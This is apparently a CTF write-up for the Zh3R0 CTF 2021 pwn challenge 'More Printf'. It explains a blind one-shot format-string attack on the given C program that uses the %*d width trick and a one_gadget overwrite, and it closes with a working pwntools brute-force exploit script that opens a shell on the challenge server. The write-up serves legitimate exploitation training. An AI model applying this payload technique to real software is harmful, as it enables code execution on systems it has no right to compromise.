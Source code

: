 ```yaml
---
layout: post
title: Zh3R0 CTF 2021
categories: [ctf, pwn]
---
```


## Pwn: More Printf

### Source

```cpp
/* gcc -o more-printf -fstack-protector-all more-printf.c */
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

FILE *fp;
char *buffer;
uint64_t i = 0x8d9e7e558877;

_Noreturn main() {
  /* Just to save some of your time */
  uint64_t *p;
  p = &p;

  /* Chall */
  setbuf(stdin, 0);
  buffer = (char *)malloc(0x20 + 1);
  fp = fopen("/dev/null", "wb");
  fgets(buffer, 0x1f, stdin);
  if (i != 0x8d9e7e558877) {
    _exit(1337);
  } else {
    i = 1337;
    fprintf(fp, buffer);
    _exit(1);
  }
}
```

We have a unique Format String bug in the software using `fprintf`. As all output is written to `/dev/null`, this is essentially a blind attack. In addition, there exists a "canary" variable `i` that is overwritten before our `fprintf`, which prevents us from simply returning to the main function to read in another input. However, returning after the if/else check meant that we're unable to change our format string buffer. This effectively meant that we have to get a shell with our first try in what I would call a "speak now or forever hold your peace" scenario.

To have a look at what our stack look like before the format string attack is executed, we can simply issue a breakpoint before the `_IO_vprintf_internal` is called using `b *fprintf+143`.

This is what the stack looked like for me:

![GEF Telescope 40 Before FSB](/public/zh3r0-more-printf/01_telescope_40_before.png)

We can redirect the output to stdout using `set $rdi = _IO_stdout`. After that, stepping over the function call will leak address to our terminal which reveals that the first 10 address leaks using multiple `%p` refers to addresses at:

- +0x0030 [Our format string in the heap]
- +0x0038 [Address in glibc for `__GI__libc_read+17`]
- +0x0040
- +0x0048
- +0x00e0 [The `p = &p` instruction since the value points to itself]
- +0x00e8
- +0x00f0 [Address for `__libc_csu_init`] 
- +0x00f8 [Address for `__libc_start_main+231`]
- +0x0100
- +0x0108 [Address on the stack]

What's interesting is the address at `+0x0038` which is the address for `__GI__libc_read+17`. We can confirm this in GDB:

![GEF __GI__libc_read+17](/public/zh3r0-more-printf/02_libc_read.png)

My intuition tells me that this is roughly the call graph:

```
fprintf()
  \_ calls _IO_vprintf_internal()
    \_ calls _GI_libc_read() (To parse the format string)
```

As it is an address in libc, if we're able to overwrite the lower half of the address with the location of `one_gadget`, we would have succeed in getting a shell without the need to leak libc addresses in one try. Sounds like a plan. But how are we supposed to obtain the location of `one_gadget` affected by ASLR? This is where the 8th stack position (`__libc_start_main+231`) comes into play. As `__libc_start_main+231` is accessible to us, we can simply load its value for use in our format string. Behold, the format specifier width field `%*d`. According to the definition in Wikipedia,

> The Width field specifies a minimum number of characters to output, and is typically used to pad fixed-width fields in tabulated output, where the fields would otherwise be smaller, although it does not cause truncation of oversized fields.
>
> The width field may be omitted, or a numeric integer value, or a dynamic value when passed as another argument when indicated by an asterisk *. For example, `printf("%*d", 5, 10)` will result in `   10` being printed, with a total width of 5 characters. 

This is great and all, but what makes it interesting is the fact that you can simply use values in other stack positions. This means in our case, `%*8$d` has the same effect as `%140737347861495d` (`0x7ffff7a03bf7 = 140737347861495`). With that, all that's left between us and victory are some basic arithmetic and a little bit of RNG luck.

![GEF vmmap](/public/zh3r0-more-printf/03_vmmap.png)

Looking at the memory map, we learn that the base address of libc is `0x7ffff79e2000`.

![one_gadget libc-2.27.so](/public/zh3r0-more-printf/04_one_gadget.png)

Looking at the one gadgets available, we select the first gadget at `0x4f3d5` as it has the easiest constraints amongst them. This brings our effective one gadget address to be `0x7ffff79e2000 + 0x4f3d5 = 0x7fff08629be7`.

Now that we have all the addresses we need, it's time to construct our format string payload. We'll kindly make use of the `p = &p` instruction that's available at address `0x7fffffffe3b0` (5th stack position) that's referencing itself to point to `0x7fffffffe308` (2nd stack position). Afterwards, any writes to the 5th stack position will effectively overwrite the value at the 2nd stack position. As the `$` positional argument in the format will copy the stack to an internal buffer, we should use it sparingly.

There are 3 modes of `%n` writes: `%n` which overwrites 8 bytes, `%hn` which overwrites 4 bytes, and `hhn` which overwrites 2 bytes. Taking ASLR into account, we'll use `%hhn` to keep our write small and overwrite the last 2 bytes to `08`. This is what we have so far:

```
%c%c%c%5c%hhn
```

Next, we need to print some padding the length of the value of `__libc_start_main+231`. This changes our format string to:

```
%c%c%c%5c%hhn%*8$d
```

This will print `8 + 0x7ffff7a03bf7` bytes. To increase the printed bytes up to `0x7fff08629be7`, we'll need to print another `0x7fff08629be7 - 0x7ffff7a03bf7 - 8 = 186326` bytes. Don't worry if the padding is very long; as we're simply writing to `/dev/null`, printing will be relatively quick. Our final format string looks like this:

```
%c%c%c%5c%hhn%*8$d%186326c%5$n
```

This is what the stack looks like after the format string has ran:

![GEF Telescope 40 After FSB](/public/zh3r0-more-printf/05_telescope_40_after.png)

Note that we're using `%n` in our 2nd write, and since only the last 3 nibbles of an address is deterministic, it's up to the power of RNG to help us since our debugging environment has ASLR turned off for purposes of developing the exploit. Luckily, it's only `1 in 32` chance according to the challenge author which can be bruteforced quickly on a modern computer.

![Flag](/public/zh3r0-more-printf/06_flag.png)

### Takeaways

- Using `%*d` to use another libc address then adding a static offset to one gadget overcomes the lack of any output for leaking libc addresses. 

### Exploit

```python
#!/usr/bin/env python3

from pwn import *

num_of_tries = 0
context.log_level = 'error'
while True:
    try:
        if args.REMOTE:
            io = remote('pwn.zh3r0.cf', 2222)
        else:
            elf = context.binary = ELF('./more-printf')
            io = elf.process()

        num_of_tries += 1

        io.sendline('%c%c%c%5c%hhn%*8$d%186326c%5$n')
        io.sendline('cat flag')
        io.unrecv(io.recvn(1, timeout=3))

        print(f"Got shell after {num_of_tries} tries")
        io.interactive()
    except EOFError:
        pass
```
